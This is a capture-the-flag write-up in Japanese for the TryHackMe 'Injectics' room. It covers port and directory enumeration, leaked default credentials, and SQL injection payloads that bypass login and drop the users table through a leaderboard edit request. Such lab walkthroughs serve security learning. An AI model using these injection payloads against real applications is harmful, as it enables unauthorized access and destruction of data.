 # Injectics CTF

https://tryhackme.com/r/room/injectics

## Enumeration

### ポートスキャン

```shell
root@ip-10-10-4-190:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-05 00:40 GMT
Nmap scan report for 10.10.140.0
Host is up (0.00018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:3D:01:EE:66:C3 (Unknown)
```

### gobuster

```shell
root@ip-10-10-4-190:~# gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.140.0
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 310] [--> http://10.10.140.0/flags/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.140.0/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.140.0/js/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.140.0/javascript/]
/vendor               (Status: 301) [Size: 311] [--> http://10.10.140.0/vendor/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.140.0/phpmyadmin/]
/server-status        (Status: 403) [Size: 276]
Progress: 220557 / 220558 (100.00%)
===============================================================
Finished
===============================================================

gobuster dir -x php,txt,html -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
```

ホームページコメント
```html
<!-- Website developed by John Tim - dev@injectics.thm-->
<!-- Mails are stored in mail.log file-->
```

mail.log
```text
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

usersテーブルが削除されたり破損したりすると、自動的にデフォルト認証情報で復活する。1分間隔。  
usersテーブルを削除するSQLを注入できれば、管理者ログインもできることになる。

デフォルト認証情報  
superadmin@injectics.thm | superSecurePasswd101  
dev@injectics.thm | devPasswd123

ちなみに初期状態ではデフォルト認証情報でログインできなかった。

## ログイン画面

普通のログイン画面と、管理者用のログイン画面が分かれている。

### ログインバイパス

ログインバイパスを注入できるか？

```text
username=dev@injectics.thm&password=' OR '1'='1&function=login

username=dev@injectics.thm&password='%0AoR%0A'1'='1&function=login

username=dev@injectics.thm&password='%09||%091=1--&function=login
```

うまくいかない。

### Usersテーブル削除
  
usersテーブルの削除を注入できるか？

```text
username=dev@injectics.thm&password='; delete from users; --&function=login

username=dev@injectics.thm&password='; DROP TABLE users; --&function=login

username=dev@injectics.thm&password=';%09dElEtE%09fRoM%09users;--&function=login

username=dev@injectics.thm&password=';%0AdE/**/lEtE%0AfRoM/**/users;--&function=login
```

うまくいかない。

全く分からなかったのでウォークスルーを見た。  
intruderを使って、usernameフィールドにSQLiリストを適用して弱点を探る。  

```shell
wget https://github.com/payloadbox/sql-injection-payload-list/raw/refs/heads/master/Intruder/exploit/Auth_Bypass.txt
```

```text
このインジェクション（' OR 'x'='x'#;）で、
username='%20OR%20'x'%3d'x'%23%3b&password=aaa&function=login

ログインバイパスに成功している。
{"status":"success","message":"Login successful","is_admin":"true","first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```
198個中、成功したのはこの1個だけ。  
手作業で探すのは無謀だった。


## dashboard.php

メダル数を編集できる画面

```http
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.140.0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.140.0
Connection: keep-alive
Referer: http://10.10.140.0/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=kt6pe4ohp0fh53i4tor0tc29lr
Upgrade-Insecure-Requests: 1

rank=1&country=&gold=22&silver=21&bronze=1233
```

これで users テーブルを Drop。Delete では復元されなかった。

```text
rank=1&country=&gold=22;drop+table+users;&silver=21&bronze=12345
→
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

## 管理者ログイン

profile画面へのリンクがあり、リンク先にはプロフィール変更のフォームがある。

Last Name にペイロードを入れてもそのままの形で保存される。

```text
last';select * from users;--
```


## 振り返り
- SQLiの脆弱性を手作業で探るのは無理。認証バイパスはintruderを使いやすい。
